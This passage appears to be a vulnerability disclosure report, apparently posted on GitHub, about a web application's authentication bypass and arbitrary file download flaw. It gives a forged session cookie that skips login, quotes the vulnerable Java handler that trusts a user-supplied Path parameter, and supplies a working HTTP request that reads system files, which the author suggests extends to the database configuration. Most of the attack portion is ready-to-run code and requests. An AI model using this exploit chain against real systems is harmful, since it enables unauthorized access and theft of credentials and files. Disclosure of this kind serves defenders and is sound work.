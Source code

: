 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.


### Arbitrary File Download Vulnerability
We found a sink point, and the risky code is as follows:

```java
@RequestMapping(
        params = {"Action=Download"}
    )
    public void download(HttpServletRequest request, HttpServletResponse response) {
        try {
            String path = request.getParameter("Path");
            File file = new File(path);
            int lastIndexOf = path.lastIndexOf("/");
            String name = path.substring(lastIndexOf + 1);
            String fileName = new String(name.getBytes("UTF-8"), "iso-8859-1");
            InputStream ins = new BufferedInputStream(new FileInputStream(file));
            byte[] buffer = new byte[ins.available()];
            ins.read(buffer);
            ins.close();
            response.reset();
            response.addHeader("Content-Disposition", "attachment;filename=" + fileName);
            response.addHeader("Content-Length", "" + file.length());
            OutputStream ous = new BufferedOutputStream(response.getOutputStream());
            response.setContentType("application/octet-stream;charset=UTF-8");
            ous.write(buffer);
            ous.flush();
            ous.close();
        } catch (Exception var11) {
            Exception e = var11;
            CommonFunction.writeExceptionLog("DeviceFileReport", e);
        }

    }
```

Obviously, since the `Path` parameter is controllable by the user, this is a typical code snippet with an arbitrary file download vulnerability.

Based on this, we can construct a special payload to read the database configuration file. The Proof of Concept (POC) is as follows:

```
POST http://ip:port/Service.do?Action=Download HTTP/1.1
Host: ip:port
Content-Length: 23
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

Path=C:/windows/win.ini
```
<img width="1771" height="730" alt="image" src="https://github.com/user-attachments/assets/a3206619-b951-4fb1-8f4b-eb29d9f39e16" />

Thank you for your review! Wish you all the best!
